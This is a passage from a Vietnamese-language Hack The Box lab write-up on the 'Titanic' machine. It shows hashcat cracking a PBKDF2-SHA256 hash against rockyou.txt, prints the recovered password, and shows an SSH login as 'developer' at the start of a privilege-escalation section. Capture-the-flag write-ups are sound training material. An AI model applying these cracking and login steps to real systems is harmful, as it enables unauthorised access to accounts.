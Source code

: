 ```bash

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

## Privilege escalation

Login vào user này

```bash
~/htb/machines/titanic ssh developer@10.10.11.55
developer@10.10.11.55's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Mar 27 04:51:54 PM UTC 2025

  System load:           0.29
  Usage of /:            84.8% of 6.79GB
  Memory usage:          21%
  Swap usage:            0%
  Processes:             230
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.55
  IPv6 address for eth0: dead:beef::250:56ff:feb9:f50f


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Thu Mar 27 16:43:33 2025 from 10.10.14.41
developer@titanic:~$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)
```
